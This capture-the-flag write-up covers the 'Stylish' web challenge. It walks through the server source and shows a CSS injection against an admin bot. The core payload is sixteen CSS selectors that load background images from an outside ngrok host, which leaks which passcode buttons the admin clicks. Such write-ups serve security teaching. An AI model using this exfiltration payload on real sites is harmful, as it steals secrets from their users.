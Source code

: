 # Stylish

## Challenge description 
![img](Pasted_image_20210614000841.png)</br>
Stylish is the one of the hardest challenges at the website and it give us 400 points.
Organizers give us URL to website and server source code files.  


## Look at the website 
![img](Pasted_image_20210613000440.png)</br>
![img](Pasted_image_20210613000518.png)</br>
Ok so as we can see at website we have got 4 color inputs serialized with JSON and send by GET parameter. By clicking "Submit for review" button we can  send them to admin.    
But second important thing in our website is "Get flag" button.

![img](Pasted_image_20210613000448.png)</br>
Our goal in this CTF is steal admin secret code to the flag.

## Look at the source code 
#### passcode.js
```js
export default function generatePasscode() {
	const chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"];
	for (let i = 0; i < chars.length - 1; i++) {
		let temp = chars[i];
		let j = Math.floor(Math.random() * (chars.length - i)) + i;
		chars[i] = chars[j];
		chars[j] = temp;
	}
	return chars.join("");
}
```
Password is generated from 16 hexadecimal character in random order. 

#### server.js
```js
app.post("/submit", async (req, res) => {

 try {
	 const {bg, fg, bbg, bfg} = req.body;
	 if (typeof bg !== "string") return res.status(400).type("txt").send("bg must be a string");
	 if (typeof fg !== "string") return res.status(400).type("txt").send("fg must be a string");
	 if (typeof bbg !== "string") return res.status(400).type("txt").send("bbg must be a string");
	 if (typeof bfg !== "string") return res.status(400).type("txt").send("bfg must be a string");
	 const encoded = encodeURIComponent(JSON.stringify({ bg, fg, bbg, bfg }));
	 if (encoded.length > 2000) return res.status(400).type("txt").send("Theme permalink too long (>2000 chars)");

  

	 await visit('http://localhost:1337/#${encoded}', passcode);
	 res.type("txt");
	 res.send("The admin has checked out your theme!");
 } catch (e) {
	 console.error(e.stack);
	 res.sendStatus(500);
 }
});
```
#### visit.js
```js
 await page.goto(url, {waitUntil: "load", timeout: 1000});
 await page.click("#get-flag");
 await page.waitForSelector(".e");

 for (let i \= 0; i < passcode.length; i++) {
	const char \= passcode.charAt(i);
	const id \= "button" + Math.floor(Math.random() \* 123456);
	await page.evaluate(\`
		document.querySelectorAll(".e > button").forEach(button => {
			if (button.innerText === "${char}") {
				button.id = "${id}";
			}
		})
	`);
	await page.click(\`#${id}\`);
	await timeout(50);
 }
 await page.click(".s");
 await timeout(1000);
 ```
By looking at the source code we can see that CSS sent by user isn't verified at all (except checking if it is string but it's not problem at all) so we can easily inject own CSS style.
After setting our CSS style admin sets id (always beginning at "button") to button which creates randomly generated passcode and click them.   


### Attack scenario
1. Send to admin CSS which will try to load background from website hosted on our PC. According on which button have been clicked it will be try to download file with button number. For example if clicked button will be "F" it will try to load img from www.my_website.com/F, if clicked button will be "4" it will try to download www.my_website.com/4.
2. Listen on server img requests.
3. Login for flag with obtained numbers.

### CSS payload
```css
red;}
button:nth-child(1)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/0")}
button:nth-child(2)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/1")}
button:nth-child(3)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/2")}
button:nth-child(4)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/3")}
button:nth-child(5)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/4")}
button:nth-child(6)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/5")}
button:nth-child(7)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/6")}
button:nth-child(8)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/7")}
button:nth-child(9)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/8")}
button:nth-child(10)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/9")}
button:nth-child(11)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/A")}
button:nth-child(12)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/B")}
button:nth-child(13)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/C")}
button:nth-child(14)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/D")}
button:nth-child(15)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/E")}
button:nth-child(16)[id^="b"]{background:url("http://7dcf938e36aa.ngrok.io/F")}
```





### payload sent
![img](Pasted_image_20210612234737.png)</br>
Unfortunately my exploit doesn't catch one number (zero) so I had to brute force his position :(

![img](Pasted_image_20210613000604.png)</br>
After few minute we got the flag.
